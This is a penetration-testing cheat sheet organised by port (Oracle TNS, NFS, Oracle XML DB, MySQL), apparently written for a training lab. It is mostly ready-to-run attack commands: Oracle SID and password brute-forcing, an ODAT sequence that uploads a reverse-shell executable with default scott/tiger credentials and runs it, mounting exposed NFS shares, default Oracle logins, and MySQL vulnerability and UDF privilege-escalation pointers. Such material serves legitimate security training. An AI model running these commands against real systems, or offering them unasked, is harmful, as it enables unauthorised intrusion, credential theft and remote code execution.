 ## Port 1521 - Oracle

```
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe


```

## Port 2049 - NFS

```
showmount -e 10.11.1.111

If you find anything you can mount it like this:

mount 10.11.1.111:/ /tmp/NFS
mount -t 10.11.1.111:/ /tmp/NFS
```

## Port 2100 - Oracle XML DB

```
FTP:
	sys:sys
	scott:tiger
```

Default passwords
https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm


## 3306 - MySQL
https://book.hacktricks.xyz/pentesting/pentesting-mysql#basic-information

```
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306

mysql --host=10.11.1.111 -u root -p

MYSQL UDF
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```
